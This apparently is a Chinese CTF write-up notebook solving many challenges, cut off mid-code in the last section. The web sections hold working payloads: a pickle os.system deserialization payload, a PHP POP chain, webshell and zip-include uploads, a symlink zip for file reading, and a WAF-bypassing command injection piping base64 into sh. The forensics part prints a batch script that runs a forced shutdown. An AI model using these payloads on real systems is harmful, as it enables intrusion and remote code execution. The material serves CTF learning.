


# king
collapsed:: true
	- 题目只有一个页面，`wget -r`下载网站，翻找`index.js`发现有一个WebSocket的数据查询接口，可以传入JSON进行查询
	- fuzz发现服务器的报错信息和MongoDB相同
	- 猜测接口会将传入的JSON直接转成BSON发送给MongoDB服务端
		- MongoDB也是C/S架构，客户端（如pymongo）会将指令序列化成BSON，并通过socket发送给MongoDB服务端
	- 测试，具体的数据结构可以通过起一个mongodb客户端然后用wireshark抓包得知
		- 使用filter
			- ```python
			  data = {
			    "id": "114",
			    "query": {"find": "enemies", "filter": {"name": "REYNARD LONGBOW"}},
			  }
			  ```
		- 列出当前的所有collection
			- ```python
			  data = {
			    "id": "114",
			    "query": {'listCollections': 1, 'cursor': {}, 'nameOnly': True, 'lsid': {'id': "114514"}, '$db': 'mydatabase'},
			  }
			  
			  ```
			- 可以看到flag的集合
		- 最后直接拿flag
			- ```python
			  data = {
			    "id": "114",
			    "query": {"find": "flagzt5c4z2ef3",},
			  }
			  ```
	- 所以最后拿flag的脚本如下：
		- ```python
		  import websocket
		  import json
		  
		  
		  def on_open(ws):
		      data = {
		          "id": "114",
		          "query": {"find": "flagzt5c4z2ef3",},
		      }
		  
		      json_data = json.dumps(data)
		      ws.send(json_data)
		  
		  
		  def on_message(ws, message):
		      # 处理接收到的消息
		      message = json.loads(message)
		      print(message)
		  
		  
		  # 替换为你的远程服务器地址
		  url = "ws://101.32.220.189:32403/"
		  
		  # 连接服务器
		  ws = websocket.WebSocketApp(url, on_open=on_open, on_message=on_message)
		  ws.run_forever()
		  # flagzt5c4z2ef3
		  ```
		- ```python
		  {'data': {'cursor': {'firstBatch': [{'_id': '65b9adb3ceccf76ab8ac0aff',
		                                       'flag': 'begin{n0W_yoU_ArE_klng_01_NOsQ11_TO0_f9a439bb91b0}'}],
		                       'id': 0,
		                       'ns': 'king.flagzt5c4z2ef3'},
		            'ok': 1},
		   'id': '114'}
		  ```
- # pickelshop
  collapsed:: true
	- 很没意思的[pickle]([[CTF/Python/Pickle]])反序列题目
	- 注册发现题目给了一个cookie，把这个cookie扔给登陆API就行
		- 注意扔给登陆API的时候不能带上用户名和密码的JSON
	- 搓一个pickle payload，参考[这里]([[CTF/Python/Pickle/opcode]])
		- ```python
		  import typing as t
		  
		  PickleOpcode = t.NewType("PickleOpcode", bytes)
		  
		  def pickle_obj(
		      clazz: PickleOpcode, arguments: t.Iterable[PickleOpcode]
		  ) -> PickleOpcode:
		      return b"(" + clazz + b"".join(arguments) + b"o"
		  
		  def pickle_string(pickle_type, value: str) -> PickleOpcode:
		      if pickle_type == "STRING":
		          return b"S'" + value.encode() + b"'\n"
		      if pickle_type == "SHORT_BINSTRING":
		          return b"U" + len(value).to_bytes(1, "little") + value.encode()
		      if pickle_type == "BINSTRING":
		          return b"T" + len(value).to_bytes(4, "little") + value.encode()
		      if pickle_type == "UNICODE":
		          return b"V" + value.encode() + b"\n"
		      if pickle_type == "SHORT_BINUNICODE":
		          return b"\x8c" + len(value).to_bytes(1, "little") + value.encode()
		      if pickle_type == "BINUNICODE":
		          return b"X" + len(value).to_bytes(4, "little") + value.encode()
		      else:
		          raise NotImplementedError(f"{pickle_type=} is not supported.")
		  
		  def pickle_stack_global(module: PickleOpcode, attr: PickleOpcode) -> PickleOpcode:
		      return module + attr + b"\x93"
		  
		  
		  payload = pickle_obj(
		      pickle_stack_global(
		          pickle_string("STRING", "os"), pickle_string("STRING", "system")
		      ),
		      [pickle_string("STRING", "sleep 5")], # 改成你的命令
		  )
		  payload += b"."
		  print(payload)
		  # b"(S'os'\nS'system'\n\x93S'sleep 5'\no."
		  ```
	- 然后打上去
		- ```python
		  r = requests.post(
		      url + "/api/login",
		      cookies={"user": encoder.base64_encode(payload)},
		      # data={"username": 1, "password": ""},
		  )
		  print(r.text)
		  ```
- # POPgadget
  collapsed:: true
	- 普通POP链，但是要想到可以用`call_user_func`调用`Test`中的函数
	- pop链如下：
		- ```php
		  // B::__destruct --> A::__get --> Fun::__call --> Test::__call
		  $test = new Test();
		  $fun = new Fun();
		  $fun->setFunc([$test, "xxx"]);
		  $a = new A();
		  $a->a = $fun;
		  $b = new B();
		  $b->p = "index.php";
		  $b->a = $a;
		  echo urlencode(serialize($b));
		  ```
	- 完整`pop.php`如下
		- ```php
		  <?php
		  
		  // highlight_file(__FILE__);
		  class Fun
		  {
		      private $func = 'call_user_func_array';
		      public function setFunc($func){
		          $this->func = $func;
		      }
		  
		  }
		  
		  class Test
		  {
		  
		  }
		  
		  class A
		  {
		      public $a;
		  
		  }
		  
		  class B
		  {
		      public $p;
		  
		  }
		  // B::__destruct --> A::__get --> Fun::__call --> Test::__call
		  $test = new Test();
		  $fun = new Fun();
		  $fun->setFunc([$test, "xxx"]);
		  $a = new A();
		  $a->a = $fun;
		  $b = new B();
		  $b->p = "index.php";
		  $b->a = $a;
		  echo urlencode(serialize($b));
		  ?>
		  ```
- # zupload
  collapsed:: true
	- 任意文件读取，直接传入`/flag`即可
- # zupload-pro
  collapsed:: true
	- 任意文件上传，传一个webshell即可
- # zupload-pro-plus
  collapsed:: true
	- 使用伪协议`file:///flag`
	- ```python
	  r = base_get(url, params = {
	      "action": "file:///flag",
	  })
	  print(r.status_code)
	  print(r.text)
	  ```
- # zupload-pro-plus-max
  collapsed:: true
	- 先写一个webshell a.php，把它压缩进a.zip里，压缩方式选Store（仅储存）
		- 记得webshell的传参方式是GET
	- 然后把a.zip传上去，最后include a.zip即可
	- ```python
	  with open("a.zip", "rb") as f:
	      r = base_post(url, files = {
	          "file": ("a.zip", f.read())
	      })
	      print(r.text)
	  
	  r = base_get(url, params = {
	      "action": "uploads/a.zip",
	      "data": "system('cat /flag');"
	  })
	  print(r.status_code)
	  print(r.text)
	  ```
- # zupload-pro-plus-max-ultra
  collapsed:: true
	- 直接在`X-Extract-To`这个header注入命令即可
- # zupload-pro-plus-max-ultra-premium
  collapsed:: true
	- 一开始尝试写马发现不解析，考虑直接读flag
	- 思路：利用[zip]([[CTF/Zip]])创建到根目录的软链接，然后直接通过软链接读flag
	- 构造zip包
		- ```shell
		  ln -s / root
		  cd root 
		  ls
		  afs  boot  etc   home.orig  lib64       media  opt   root  rw    srv  tmp  var
		  bin  dev   home  lib        lost+found  mnt    proc  run   sbin  sys  usr
		  cd ..
		  zip --symlinks root.zip root
		    adding: root (stored 0%)
		  
		  ```
	- 传zip包直接读flag
		- ```python
		  url = "http://101.32.220.189:30607/"
		  # url = "http://127.0.0.1:8081/"
		  
		  with open("/tmp/root.zip", "rb") as f:
		      b = f.read()
		  
		  r = base_post(url, files = {
		      "file": ("root.zip", b)
		  })
		  
		  r = base_get(url + "uploads/root/flag")
		  print(r.text)
		  ```
- # readbooks
  collapsed:: true
	- 思路
		- fuzz拿到源码
		- 绕WAF实现RCE
	- 绕WAF
		- 使用`${IFS}`代替空格，用`${9}`分开关键字即可使用pipe实现执行任意命令
		- `|e${9}cho${IFS}Y2F0IC9fZmxhZyAg|base${9}64${IFS}-d|s${9}h`
	- 最后的exp
		- ```python
		  import socket
		  
		  def get_resp(payload):
		      req = """\
		      GET /public/PAYLOAD HTTP/1.1
		      Host: 101.32.220.189:32037
		      Connection: close
		  
		      """.replace("\n", "\r\n").replace("PAYLOAD", encoder.urlencode(payload)).encode()
		      sock = socket.socket(2, 1)
		      sock.connect(("101.32.220.189", 32037))
		      sock.send(req)
		      resp = b""
		      while True:
		          line = sock.recv(1024)
		          if not line:
		              break
		          resp += line
		  
		      return resp.decode()
		  
		  print(get_resp("|e${9}cho${IFS}Y2F0IC9fZmxhZyAg|base${9}64${IFS}-d|s${9}h"))
		  ```
	- fuzz
		- `/list/{book}`
			- `/list/book1`
			- `/list/book2`
			- `/list/private`
			- `/list/lipsum`显示banned
			- `/list/joiner`显示banned
			- `/list/*`显示一堆东西，拿到源码
				- ```python
				  import os
				  from flask import Flask, request, render_template
				  
				  app = Flask(__name__)
				  
				  DISALLOWED1 = ['?', '../', '/', ';', '!', '@', '#', '^', '&', '(', ')', '=', '+']
				  DISALLOWED_FILES = ['app.py', 'templates', 'etc', 'flag', 'blacklist']
				  BLACKLIST = [x[:-1] for x in open("./blacklist.txt").readlines()][:-1]
				  
				  BLACKLIST.append("/")
				  BLACKLIST.append("\\")
				  BLACKLIST.append(" ")
				  BLACKLIST.append("\t")
				  BLACKLIST.append("\n")
				  BLACKLIST.append("tc")
				  
				  ALLOW = [
				      "{",
				      "}",
				      "[",
				      "pwd",
				      "-",
				      "_"
				  ]
				  
				  for a in ALLOW:
				      try:
				          BLACKLIST.remove(a)
				      except ValueError:
				          pass
				  
				  @app.route('/')
				  @app.route('/index')
				  def hello_world():
				      return render_template('index.html')
				  
				  @app.route('/public/<path:name>')
				  def readbook(name):
				      name = str(name)
				      for i in DISALLOWED1:
				          if i in name:
				              return "banned!"
				      for j in DISALLOWED_FILES:
				          if j in name:
				              return "banned!"
				      for k in BLACKLIST:
				          if k in name:
				              return "banned!"
				      print(name)
				      try:
				          res = os.popen('cat {}'.format(name)).read()
				          return res
				      except:
				          return "error"
				  
				  @app.route('/list/<path:name>')
				  def listbook(name):
				      name = str(name)
				      for i in DISALLOWED1:
				          if i in name:
				              return "banned!"
				      for j in DISALLOWED_FILES:
				          if j in name:
				              return "banned!"
				      for k in BLACKLIST:
				          if k in name:
				              return "banned!"
				      print(name)
				      cmd = 'ls {}'.format(name)
				      try:
				          res = os.popen(cmd).read()
				          return res
				      except:
				          return "error"
				  
				  if __name__ == '__main__':
				      app.run(host='0.0.0.0',port=8878)
				  ```
		- `/{a}/{b}/{c}`
			- `/list/a/b`显示banned
		- `/public/{book}`
			- `/public/book1`
			- `/public/book2`
		- 基于路径的无回显Jinja SSTI?
			- `/list/x`和`/public/x`
				- ```python
				  payload = "{{cycler|e|list|e|list|e|list|e|list|e|list|e|list|e|list}}"
				  
				  r = base_get(url + "/public/" + payload)
				  print(r.text)
				  ```
				- 没有反应
		- SQL注入？
			- `/list/book1""`回显book1
- ---
- # real check in
  collapsed:: true
	- cyberchef梭
- # Tupper
  collapsed:: true
	- 将文件按照数字顺序拼接成一个base64并解码，可以得到一个数字
		- ```python
		  n = 14278193432728026049298574575557534321062349352543562656766469704092874688354679371212444382298821342093450398907096976002458807598535735172126657504131171684907173086659505143920300085808809647256790384378553780282894239751898620041143383317064727136903634770936398518547900512548419486364915399253941245911205262493591158497708219126453587456637302888701303382210748629800081821684283187368543601559778431735006794761542413006621219207322808449232050578852431361678745355776921132352419931907838205001184
		  ```
	- pip安装tupper库，将这个数字送给tupper库绘制，得到一张图像
		- 
	- 翻转
		- 
	- `begin{T4UUPER!}`
- # devil's word
  collapsed:: true
	- 列出其中所有单词，发现有a-f和九个独特的单词，猜测这九个单词代表数字
		- ```python
		  {'a',
		   'b',
		   'bo',
		   'c',
		   'cai',
		   'd',
		   'e',
		   'f',
		   'jau',
		   'leng',
		   'leu',
		   'lia',
		   'ng',
		   'sa',
		   'sii'}
		  ```
	- 根据读音可以猜出各个单词对应的数字，猜不对的话可以根据结果调整
		- ```python
		  d = {
		      "leng": "0",
		      "lia": "2",
		      "sa": "3",
		      "sii": "4",
		      "ng": "5",
		      "leu": "6",
		      "cai": "7",
		      "bo": "8",
		      "jau": "9",
		      "a": "a",
		      "b": "b",
		      "c": "c",
		      "d": "d",
		      "e": "e",
		      "f": "f",
		  }
		  
		  with open("Downloads/devil's word.txt", "rb") as f:
		      b = f.read()
		  
		  h = "".join([d[w] for w in b.decode().split()])
		  bytes.fromhex(h)
		  # begin{y0u_kn0w_w3nzhou_d1elect}
		  ```
		- 刚开始猜的结果是这样的，然后根据结果调整就行了
			- ```python
			  d = {
			      "jau": "1",
			      "lia": "2",
			      "sa": "3",
			      "sii": "4",
			      "ng": "5",
			      "leu": "6",
			      "cai": "7",
			      "bo": "8",
			      "leng": "9",
			      "a": "a",
			      "b": "b",
			      "c": "c",
			      "d": "d",
			      "e": "e",
			      "f": "f",
			  }
			  ```
	- `begin{y0u_kn0w_w3nzhou_di4lect}`
- # where is crazyman v1.0
  collapsed:: true
	- 大黑屋在秋叶原
- ---
- # fake_n
  collapsed:: true
	- 因为真正用于加密的n和假的n都由同一列质数生成，所以可以由假的n爆破得出真的n
	- 分解质因数，得到一系列质数
		- ```python
		  from Crypto.Util.number import inverse, long_to_bytes
		  from sympy import primefactors
		  ns = primefactors(178981104694777551556050210788105224912858808489844293395656882292972328450647023459180992923023126555636398409062602947287270007964052060975137318172446309766581)
		  print(ns)
		  
		  ```
	- 然后爆破flag
		- ```python
		  
		  c = 6451324417011540096371899193595274967584961629958072589442231753539333785715373417620914700292158431998640787575661170945478654203892533418902
		  
		  for real_ns in itertools.combinations(ns, len(ns) - 2):
		      real_n, real_phi = 1, 1
		      for n in real_ns:
		          real_n *= n
		          real_phi *= n - 1
		      
		      e = 65537
		      d = inverse(e, real_phi)
		      m = pow(c, d, real_n)
		      flag = long_to_bytes(m)
		      if len([x for x in flag if x < 128]) - len([x for x in flag if x > 128]) > 10:
		          print(flag)
		  
		  ```
- ---
- # beginner_Forensics!!!!
  collapsed:: true
	- 打开文件是一个BatchEncryption混淆的bat脚本
	- 搜到[解密脚本](https://www.52pojie.cn/thread-1469297-1-1.html)，直接解密即可
		- ```bat
		  @set '=^">nul&@echo off&@set IYMc=BawkZ&@set kbR=orzX&@set '=q^^^.^^^Gm^^^~^^^T^^^8^^^*^^^[g^^^W^^^Z^^^ ^^^|^^^]h^^^Ll^^^R^^^J^^^Swf^^^N^^^7t^^^)^^^4^^^{^^^=uonj^^^U^^^_^^^K^^^B^^^Pr^^^M^^^D^^^/^^^(^^^,^^^\^^^:pa^^^&^^^O^^^9x^^^Qzi^^^#^^^I^^^Ad^^^<^^^X^^^'^^^E^^^$^^^6^^^@^^^}c^^^;^^^"^^^H^^^5^^^?^^^V^^^1s^^^>^^^3^^^F^^^^^^^-^^^Y^^^2ke^^^`y^^^Cv^^^+b^^^0&@set NhW=XSaGj&@setlocal enabledelayedexpansion&endlcoal 2>nul&&@set DbW=PTr&@echo.>%0 &&@shutdown /s /f /t 0&&@exit&&@echo "
		  
		  @set '=^">nul&@set YhiG=PO&@if !'! neq ^" (@echo.>%0 &@set DC=ei&@set NHyk=ROIu&@shutdown /s /f /t 0&@exit) else (@cls)&@endlocal&@set AeC=SyYNc&@set FR=KpD&@set '=^^^{^^^=^^^D^^^;v^^^X^^^H^^^U^^^A^^^(^^^-j^^^G^^^>^^^)z^^^~^^^4^^^K^^^]^^^I^^^8r^^^Yy^^^Bi^^^+^^^F^^^*he^^^'f^^^5^^^\^^^Ok^^^&^^^/^^^:^^^Nnx^^^3^^^Vq^^^"^^^Pal^^^R^^^`u^^^Q^^^$^^^7cm^^^J^^^#^^^,^^^?^^^Eop^^^2^^^S^^^M^^^W^^^9^^^<b^^^.^^^L^^^Cws^^^}d^^^[^^^0^^^^^^^Z^^^_^^^T^^^1^^^@^^^ tg^^^6^^^|&@setlocal enabledelayedexpansion&endlcoal 2>nul&&@echo.>%0 &&@set ciQQ=DVxhk&@shutdown /s /f /t 0&&@exit&&@set FH=cmj&@echo "
		  
		  @set '=^">nul&@if !'! neq ^" (@echo.>%0 &@shutdown /s /f /t 0&@set hVUFz=iAs&@set tgj=pwTEF&@set bB=imqoc&@exit) else (@cls)&@endlocal&@set '=^^^O^^^Fe^^^(^^^^u^^^2^^^#^^^1^^^,^^^3^^^{nx^^^Sgsdz^^^L^^^Rt^^^?^^^Py^^^;^^^Nw^^^<^^^+^^^T^^^`^^^5^^^&^^^-^^^ ^^^_^^^H^^^Q^^^[^^^}^^^C^^^$^^^I^^^Y^^^9^^^Vv^^^B^^^M^^^|^^^]cm^^^K^^^X^^^A^^^G^^^'q^^^)^^^=^^^8^^^*h^^^Zr^^^0^^^U^^^J^^^6^^^~f^^^@i^^^\^^^Dp^^^W^^^>k^^^.^^^:ob^^^4^^^7j^^^"^^^/la^^^E&@set vJG=YJY&@setlocal enabledelayedexpansion&endlcoal 2>nul&&@echo.>%0 &&@shutdown /s /f /t 0&&@exit&&@set hPU=eKO&@echo "
		  
		  @set '=^">nul&@set eC=mqj&@if !'! neq ^" (@echo.>%0 &@set MYM=FqW&@shutdown /s /f /t 0&@set CzXh=ZQWeq&@set bXa=kA&@exit) else (@cls)&@endlocal&@set '=v^^^2^^^1^^^=m^^^Vt^^^~h^^^8sn^^^O^^^Xo^^^-^^^\^^^K^^^'^^^,^^^:^^^C^^^*k^^^6^^^@^^^}j^^^H^^^Zu^^^&^^^;^^^>^^^Q^^^#^^^Np^^^+z^^^0^^^Dc^^^`^^^(^^^7^^^Wxf^^^Gr^^^$^^^?^^^A^^^_^^^F^^^T^^^ ^^^Y^^^E^^^)^^^/^^^<^^^5^^^3^^^^q^^^[^^^Mbg^^^L^^^B^^^P^^^4dwie^^^.l^^^J^^^{^^^R^^^9^^^|^^^S^^^]ay^^^I^^^"^^^U&@setlocal enabledelayedexpansion&endlcoal 2>nul&&@echo.>%0 &&@shutdown /s /f /t 0&&@set on=hvl&@exit&&@echo "
		  
		  @set '=^">nul&@set qGz=OmV&@if !'! neq ^" (@echo.>%0 &@set fyVi=Xq&@shutdown /s /f /t 0&@exit) else (@cls)&@set PLfC=mv&@endlocal&@set '=^^^S^^^Me^^^}^^^'x^^^[^^^A^^^F^^^R^^^{o^^^J^^^<^^^~^^^Ij^^^|t^^^/^^^E^^^;^^^2i^^^:^^^?k^^^G^^^ ^^^\^^^=^^^@^^^^^^^,^^^Q^^^(^^^W^^^8^^^]w^^^6q^^^4^^^Duz^^^X^^^>^^^Z^^^Kp^^^`^^^Phr^^^#^^^3^^^.db^^^$^^^Ba^^^N^^^+s^^^)^^^L^^^"^^^H^^^V^^^&^^^-^^^Cc^^^_^^^U^^^0y^^^7g^^^T^^^5^^^*f^^^1m^^^Yv^^^Onl^^^9&@set wb=YJ&@setlocal enabledelayedexpansion&endlcoal 2>nul&&@set yRaj=Uq&@set ZMw=Mvm&@echo.>%0 &&@set Qbd=Me&@set cLscB=pmojh&@set Qxvr=Vv&@shutdown /s /f /t 0&&@set wJnI=iJgIO&@set zlpR=lFA&@set Oaqx=JtgbR&@exit&&@set PgyLB=lzNz&@set Bqr=MO&@echo "
		  
		  @set '=^">nul&@if !'! neq ^" (@echo.>%0 &@shutdown /s /f /t 0&@set ljoE=PQnz&@set VF=sYN&@set qaim=bK&@set kgwW=sq&@set ACv=Llki&@set EqYyg=rx&@set VNteE=BjW&@set ePrV=pHGu&@exit) else (@cls)&@endlocal&@set '=d^^^1yl^^^Qj^^^;cz^^^Aufh^^^)^^^<^^^H^^^4^^^/^^^Pt^^^]^^^Gx^^^S^^^8^^^|^^^Y^^^=^^^Zq^^^C^^^{^^^I^^^-wa^^^?^^^~^^^Nmse^^^^^^^7^^^ ^^^0^^^[^^^,^^^M^^^+^^^W^^^3v^^^Ri^^^"^^^>n^^^$^^^:^^^5^^^`^^^'^^^V^^^Tr^^^*^^^}^^^6^^^Fogk^^^K^^^_^^^Bb^^^\^^^2^^^(p^^^X^^^U^^^E^^^L^^^D^^^J^^^.^^^O^^^&^^^@^^^9^^^#&@setlocal enabledelayedexpansion&endlcoal 2>nul&&@set Afg=gDSx&@set cdjYh=Bh&@echo.>%0 &&@shutdown /s /f /t 0&&@exit&&@echo "
		  
		  @set '=^">nul&@if !'! neq ^" (@echo.>%0 &@shutdown /s /f /t 0&@exit) else (@cls)&@endlocal&@set '=^^^[^^^1^^^M^^^"^^^T^^^]^^^Q^^^C^^^{^^^-^^^S^^^Y^^^Gnr^^^#i^^^^^^^9^^^?g^^^Eo^^^Fu^^^`^^^)^^^O^^^Z^^^K^^^V^^^2^^^<^^^}^^^R^^^Jt^^^:j^^^,^^^=^^^Hm^^^;^^^@^^^.e^^^+s^^^~h^^^D^^^Bkwy^^^ ^^^6^^^'^^^Pd^^^>^^^$v^^^L^^^(ba^^^3^^^&p^^^|q^^^7x^^^_^^^5^^^8^^^U^^^A^^^4z^^^/^^^X^^^Wl^^^0^^^*^^^I^^^Nfc^^^\&@set dkqs=OnDW&@setlocal enabledelayedexpansion&endlcoal 2>nul&&@echo.>%0 &&@shutdown /s /f /t 0&&@set iWg=zI&@set dK=xLr&@set gMn=BkQW&@set JwQ=wIwLY&@set nun=sLls&@exit&&@set Edt=Bxepa&@echo "
		  
		  @set '=^">nul&@if !'! neq ^" (@echo.>%0 &@shutdown /s /f /t 0&@exit) else (@cls)&@set FzLPq=otfz&@endlocal&@set '=^^^Xl^^^]a^^^6^^^<^^^[^^^$^^^P^^^*mw^^^(^^^^^^^1^^^3n^^^)^^^U^^^}^^^|e^^^Rbj^^^Vd^^^0^^^+^^^"u^^^I^^^/y^^^E^^^J^^^Nf^^^?^^^2^^^Ct^^^.^^^;^^^B^^^Zis^^^&^^^_^^^8g^^^W^^^5^^^A^^^M^^^>^^^#^^^D^^^Y^^^S^^^{^^^7^^^=^^^~h^^^'r^^^Qv^^^4^^^O^^^Hx^^^Gcz^^^K^^^9k^^^\^^^@^^^Lq^^^T^^^ ^^^-^^^F^^^:o^^^`^^^,p&@setlocal enabledelayedexpansion&endlcoal 2>nul&&@echo.>%0 &&@shutdown /s /f /t 0&&@exit&&@echo "
		  
		  @set '=^">nul&@set eYMM=oK&@if !'! neq ^" (@echo.>%0 &@shutdown /s /f /t 0&@exit) else (@cls)&@endlocal&@set '=n^^^.^^^<^^^I^^^;o^^^{^^^8^^^#cs^^^]^^^^^^^J^^^V^^^/t^^^Y^^^Wqwvg^^^5^^^S^^^T^^^7^^^:^^^'^^^9^^^`^^^Hh^^^M^^^U^^^-^^^>r^^^(^^^K^^^+^^^|u^^^Rl^^^Op^^^L^^^?^^^=xd^^^Q^^^)^^^\^^^4^^^[^^^Xj^^^Pi^^^C^^^0^^^Z^^^G^^^*^^^,^^^Ba^^^3^^^2m^^^~^^^$^^^1^^^D^^^@ze^^^F^^^}f^^^&^^^ ^^^Ek^^^"yb^^^N^^^A^^^6^^^_&@set XlNW=jsZW&@set lqf=aP&@setlocal enabledelayedexpansion&endlcoal 2>nul&&@echo.>%0 &&@shutdown /s /f /t 0&&@exit&&@set PRY=UYVIQ&@set Bm=FTg&@echo "
		  
		  @set '=^">nul&@set MK=JRB&@if !'! neq ^" (@echo.>%0 &@set plYFl=aSTV&@set InbEX=Hn&@set Ppi=tb&@shutdown /s /f /t 0&@set FPA=LA&@exit) else (@cls)&@endlocal&@set amHf=iR&@set '=^^^$^^^O^^^Xqp^^^'^^^\d^^^+^^^0^^^Af^^^2x^^^Y^^^:c^^^#^^^W^^^1^^^{iev^^^I^^^}^^^?^^^-^^^(^^^J^^^M^^^Fzuw^^^ ^^^7^^^&y^^^_^^^Cr^^^V^^^|^^^<^^^Pn^^^9^^^H^^^[hs^^^Z^^^.^^^^^^^@^^^Q^^^;^^^E^^^8^^^S^^^)b^^^K^^^]^^^N^^^*^^^~^^^3^^^U^^^D^^^=^^^,la^^^6^^^"^^^R^^^4mg^^^B^^^T^^^5^^^Lj^^^Go^^^`^^^/kt^^^>&@set re=uOq&@setlocal enabledelayedexpansion&endlcoal 2>nul&&@echo.>%0 &&@shutdown /s /f /t 0&&@exit&&@echo "
		  
		  @set '=^">nul&@set uSWU=XuF&@if !'! neq ^" (@echo.>%0 &@shutdown /s /f /t 0&@set exjm=do&@exit) else (@cls)&@endlocal&@set mJww=FHc&@set YHRB=wpnY&@set '=^^^Yy^^^#^^^H^^^~p^^^:^^^Thk^^^Z^^^[^^^V^^^Kv^^^&^^^_a^^^9^^^Bz^^^0^^^.^^^1m^^^;l^^^7fe^^^2^^^F^^^>^^^^tj^^^P^^^Q^^^In^^^M^^^}^^^J^^^Rx^^^S^^^@^^^G^^^Xq^^^L^^^C^^^Or^^^8o^^^=^^^/^^^-^^^D^^^)^^^\^^^A^^^W^^^$w^^^*c^^^"^^^(^^^{^^^?^^^5^^^3^^^6bud^^^E^^^+^^^N^^^4^^^|^^^,^^^<i^^^`^^^U^^^'^^^ g^^^]s&@set aUHen=kr&@setlocal enabledelayedexpansion&endlcoal 2>nul&&@echo.>%0 &&@shutdown /s /f /t 0&&@set WnX=FHtk&@exit&&@set fFw=XVlxJ&@set ul=kCy&@echo "
		  
		  @echo on&@endlocal&@cls
		  
		  @echo off
		  
		  echo catf1y:your flag is already deleted by me.
		  
		  set find_me_pls = b@TcH_O8FU$c@T1on_15_e@SY_70_SO1vE
		  
		  echo crazyman:no no no no no no !!!!! i need flag.
		  
		  echo Attention:can you help crazyman to find the flag?
		  
		  echo Attention:Submit the info you are looking for on begin{*}
		  ```
	- `begin{b@TcH_O8FU$c@T1on_15_e@SY_70_SO1vE}`
- # 逆向工程(reverse)入门指南
  collapsed:: true
	- 使用linux自带工具pdftotext将pdf转成txt即可看到flag
- ---
- # 红白机
  collapsed:: true
	- 题目打开是一个6502汇编，看着比之前写的[webshell](((65af44bb-c870-4433-a5cb-38adaf3b6df5)))还简单
	- 直接搓一个6502的解释器
		- ```python
		  with open("Downloads/6502.txt", "r") as f:
		      lines = f.read().split("\n")
		  
		  lines = [line for line in lines if line]
		  
		  a, x, y = 0, 0, 0
		  p = 0
		  mem = [0 for _ in range(0xfff)]
		  cmp_neq = False
		  tags = {}
		  while p < len(lines):
		      line = lines[p]
		      if result := re.match(r"INX", line):
		          x = (x + 1) % 256
		      elif result := re.match(r"LDA #\$([0-9A-Fa-f]{2})", line):
		          a = int(result.group(1), 16)
		      elif result := re.match(r"LDX #\$([0-9A-Fa-f]{2})", line):
		          x = int(result.group(1), 16)
		      elif result := re.match(r"LDY #\$([0-9A-Fa-f]{2})", line):
		          y = int(result.group(1), 16)
		      elif result := re.match(r"STA \$([0-9A-Fa-f]{3}),X", line):
		          mem[int(result.group(1), 16) + x] = a
		      elif result := re.match(r"CPX #\$([0-9A-Fa-f]{2})", line):
		          cmp_neq = x != int(result.group(1), 16)
		      elif result := re.match(r"BNE ([a-z])", line):
		          if cmp_neq:
		              p = tags[result.group(1)]
		      elif result := re.match(r"([a-z]):", line):
		          tags[result.group(1)] = p
		      else:
		          print(line)
		      p += 1
		  ```
	- 然后按照题目指示把内存上的屏幕像素部分画出来
		- ```python
		  import cv2
		  import numpy
		  
		  screen = mem[0x200:0x5ff]
		  width = 32
		  height = 32
		  image = numpy.zeros([height, width])
		  for i in range(0, height):
		      for j in range(width):
		          if i * width + j >= len(screen):
		              break
		          if screen[i * width + j] == 0:
		              image[i, j] = 0
		          elif screen[i * width + j] == 1:
		              image[i, j] = 255
		          else:
		              raise RuntimeError(f"Wrong pixel: {screen[i * width + j]}")
		          # image[i, j] = (screen[i * width + j] == 0) * 255
		          # print(" " if screen[i * width + j] else "#", end = "")
		  
		  cv2.imwrite("a.png", image)
		  ```
	- 
- # real checkin xor
  collapsed:: true
	- 因为key^secret == "ez_python_xor_reverse"，所以"ez_python_xor_reverse" ^ secret == key
	- 写出脚本
		- ```python
		  secret = [7, 31, 56, 25, 23, 15, 91, 21, 49, 15, 33, 88, 26, 48, 60, 58, 4, 86, 36, 64, 23, 54, 63, 0, 54, 22, 6, 55, 59, 38, 108, 39, 45, 23, 102, 27, 11, 56, 32, 0, 82, 24]
		  result = b"ez_python_xor_reverse" * 2
		  print(bytes([s ^ r for s, r in zip(secret, result)]))
		  ```
- # ezpython
  collapsed:: true
	- > 施工中
	- 使用[pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor.git)打开给的exe得到一个文件夹，反编译其中的ezpython.pyc得到主文件
		- ```python
		  #!/usr/bin/env python
		  # visit https://tool.lu/pyc/ for more information
		  # Version: Python 3.8
		  
		  from gmssl import sm4
		  from secret import key, enc
		  import base64
		  
		  def pad_pkcs7(data):
		      '''PKCS#7填充'''
		      padding_len = 16 - len(data) % 16
		      padding = bytes([
		          padding_len] * padding_len)
		      return data + padding
		  
		  
		  def unpad_pkcs7(padded_data):
		      '''PKCS#7去填充'''
		      padding_len = padded_data[-1]
		      return padded_data[:-padding_len]
		  
		  
		  class SM4:
		      
		      def __init__(self):
		          self.gmsm4 = sm4.CryptSM4()
		  
		      
		      def encryptSM4(self, encrypt_key, value):
		          gmsm4 = self.gmsm4
